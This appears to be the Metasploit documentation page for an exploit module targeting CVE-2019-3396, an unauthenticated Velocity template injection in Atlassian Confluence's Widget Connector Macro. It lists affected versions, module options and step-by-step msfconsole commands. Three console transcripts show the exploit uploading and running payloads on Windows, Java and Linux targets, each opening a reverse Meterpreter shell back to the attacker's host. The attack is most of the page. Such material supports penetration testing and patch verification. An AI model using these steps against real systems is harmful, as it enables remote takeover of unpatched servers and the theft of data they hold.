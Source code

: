 # Description

This module exploits a Velocity Template Injection in Atlassian Confluence Widget Connector Macro before 6.14.2 to execute arbitrary code (CVE-2019-3396). No authentication is required to exploit this vulnerability.

The vulnerability exists in the Widget Connector Macro which allow inject the "\_template" from the outside for some services, such as Youtube, Viddler, DailyMotion, etc.

The module has been tested with on Atlassian Confluence 6.6.12, 6.8.2, 6.12.0 and 6.13.0 using Java, Windows and Linux meterpreter payload.

References:
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-3396
https://confluence.atlassian.com/doc/confluence-security-advisory-2019-03-20-966660264.html

# Vulnerable Application
Affecting Atlassian Confluence before version 6.6.12, from version 6.7.0 before 6.12.3, from version 6.13.0 before 6.13.3 and from version 6.14.0 before 6.14.2.

# Verification Steps

List the steps needed to make sure this thing works

- [ ] Setting up a working installation of Atlassian Confluence before 6.6.13, 6.12.3, 6.12.3 or 6.14.2.
- [ ] Start `msfconsole`
- [ ] `use exploit/multi/http/confluence_widget_connector`
- [ ] `set RHOST <IP>`
- [ ] `set RPORT <PORT>`
- [ ] `set SRVHOST <HOST_IP>`
- [ ] `check`
- [ ] You should see `The target is vulnerable`
- [ ] `exploit`
- [ ] You should get a meterpreter session.

# Options
- **TARGETURI**: Path to Atlassian Confluence installation ("/" is the default)
- **TRIGGER_URL**: Url to external video service to trigger vulnerability ("https://www.youtube.com/watch?v=dQw4w9WgXcQ" is the default)

# Scenario
## Tested on Confluence 6.8.2 with Windows target
```
msf5 > use exploit/multi/http/confluence_widget_connector
msf5 exploit(multi/http/confluence_widget_connector) > set RHOST target.com
RHOST => target.com
msf5 exploit(multi/http/confluence_widget_connector) > set RPORT 8090
RPORT => 8090
msf5 exploit(multi/http/confluence_widget_connector) > set SRVHOST 192.168.0.1
SRVHOST => 192.168.0.1
msf5 exploit(multi/http/confluence_widget_connector) > set TARGET Windows
TARGET => Windows
msf5 exploit(multi/http/confluence_widget_connector) > check
[*] target.com:8090 - Starting the FTP server.
[*] target.com:8090 - Started service listener on 192.168.0.1:8021
[+] target.com:8090 - The target is vulnerable.
[*] target.com:8090 - Server stopped.
msf5 exploit(multi/http/confluence_widget_connector) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 192.168.0.1:4444
[*] target.com:8090 - Starting the FTP server.
[*] target.com:8090 - Started service listener on 192.168.0.1:8021
msf5 exploit(multi/http/confluence_widget_connector) >
[*] target.com:8090 - Target being detected as: Windows 10
[*] target.com:8090 - Attempting to upload C:\PROGRA~1\Atlassian\Confluence\temp\gAdGh.exe
[*] target.com:8090 - Attempting to copy payload to C:\PROGRA~1\Atlassian\Confluence\temp\MRuDb.exe
[*] target.com:8090 - Attempting to execute C:\PROGRA~1\Atlassian\Confluence\temp\MRuDb.exe
[*] Sending stage (179779 bytes) to target.com
[*] Meterpreter session 1 opened (192.168.0.1:4444 -> target.com:62528) at 2019-04-11 03:13:37 +0000
[*] target.com:8090 - Waiting for exploit to complete...
[!] This exploit may require manual cleanup of 'C:\PROGRA~1\Atlassian\Confluence\temp\FFDBo.exe' on the target
[!] This exploit may require manual cleanup of 'C:\PROGRA~1\Atlassian\Confluence\temp\JLzIZ.exe' on the target
[*] target.com:8090 - Server stopped.
msf5 exploit(multi/http/confluence_widget_connector) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > quit
[*] Shutting down Meterpreter...

[*] target.com - Meterpreter session 1 closed.  Reason: User exit
msf5 exploit(multi/http/confluence_widget_connector) >
```

## Tested on Confluence 6.8.2 with Java target
```
msf5 > use exploit/multi/http/confluence_widget_connector
msf5 exploit(multi/http/confluence_widget_connector) > set RHOST target.com
RHOST => target.com
msf5 exploit(multi/http/confluence_widget_connector) > set RPORT 8090
RPORT => 8090
msf5 exploit(multi/http/confluence_widget_connector) > set SRVHOST 192.168.0.1
SRVHOST => 192.168.0.1
msf5 exploit(multi/http/confluence_widget_connector) > check
[*] target.com:8090 - Starting the FTP server.
[*] target.com:8090 - Started service listener on 192.168.0.1:8021
[+] target.com:8090 - The target is vulnerable.
[*] target.com:8090 - Server stopped.
msf5 exploit(multi/http/confluence_widget_connector) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 192.168.0.1:4444
[*] target.com:8090 - Starting the FTP server.
[*] target.com:8090 - Started service listener on 192.168.0.1:8021
msf5 exploit(multi/http/confluence_widget_connector) >
[*] target.com:8090 - Target being detected as: Linux
[*] target.com:8090 - Attempting to upload  /opt/atlassian/confluence/temp/EjpPf.jar
[*] target.com:8090 - Attempting to execute  /opt/atlassian/confluence/temp/EjpPf.jar
[*] Sending stage (53866 bytes) to target.com
[*] Meterpreter session 1 opened (192.168.0.1:4444 -> target.com:55690) at 2019-04-11 03:13:37 +0000
[+] target.com:8090 -Deleted /opt/atlassian/confluence/temp/EjpPf.jar
[*] target.com:8090 - Waiting for exploit to complete...
[*] target.com:8090 - Server stopped.
msf5 exploit(multi/http/confluence_widget_connector) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: confluence
meterpreter > quit
[*] Shutting down Meterpreter...

[*] target.com - Meterpreter session 1 closed.  Reason: User exit
msf5 exploit(multi/http/confluence_widget_connector) >
```

## Tested on Confluence 6.8.2 with Linux target
```
msf5 > use exploit/multi/http/confluence_widget_connector
msf5 exploit(multi/http/confluence_widget_connector) > set RHOST target.com
RHOST => target.com
msf5 exploit(multi/http/confluence_widget_connector) > set RPORT 8090
RPORT => 8090
msf5 exploit(multi/http/confluence_widget_connector) > set SRVHOST 192.168.0.1
SRVHOST => 192.168.0.1
msf5 exploit(multi/http/confluence_widget_connector) > check
[*] target.com:8090 - Starting the FTP server.
[*] target.com:8090 - Started service listener on 192.168.0.1:8021
[+] target.com:8090 - The target is vulnerable.
[*] target.com:8090 - Server stopped.
msf5 exploit(multi/http/confluence_widget_connector) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 192.168.0.1:4444
[*] target.com:8090 - Starting the FTP server.
[*] target.com:8090 - Started service listener on 192.168.0.1:8021
msf5 exploit(multi/http/confluence_widget_connector) >
[*] target.com:8090 - Target being detected as: Linux
[*] target.com:8090 - Attempting to upload /opt/atlassian/confluence/temp/BYHzD
[*] target.com:8090 - Attempting to copy payload to /opt/atlassian/confluence/temp/dESMnt
[*] target.com:8090 - Attempting to execute /opt/atlassian/confluence/temp/dESMnt
[*] Sending stage (985320 bytes) to target.com
[*] Meterpreter session 1 opened (192.168.0.1:4444 -> target.com:55690) at 2019-04-11 03:13:37 +0000
[+] target.com:8090 - Deleted /opt/atlassian/confluence/temp/BYHzD
[+] target.com:8090 - Deleted /opt/atlassian/confluence/temp/dESMnt
[*] target.com:8090 - Waiting for exploit to complete...
[*] target.com:8090 - Server stopped.
msf5 exploit(multi/http/confluence_widget_connector) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: uid=1001, gid=1001, euid=1001, egid=1001
meterpreter > quit
[*] Shutting down Meterpreter...

[*] target.com - Meterpreter session 1 closed.  Reason: User exit
msf5 exploit(multi/http/confluence_widget_connector) >
```